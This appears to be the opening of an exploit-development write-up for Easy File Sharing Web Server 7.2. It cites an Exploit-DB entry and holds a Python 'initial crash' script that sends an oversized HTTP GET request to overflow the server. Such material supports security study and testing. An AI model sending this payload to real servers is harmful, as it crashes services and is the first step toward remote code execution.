 # Easy File Sharing Web Server 7.2

Downloaded from: https://www.exploit-db.com/exploits/39008

## Initial Crash

```py
import socket
import os
import sys

ip = "127.0.0.1"
port = 80

crash = b"A" * 5000


buffer=b"GET "
buffer+=crash
buffer+=b" HTTP/1.1\r\n"

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()![immagine](https://user-images.githubusercontent.com/59916156/194383309-2de56b0f-4df2-456f-8d88-99e4fcc84288.png)
```

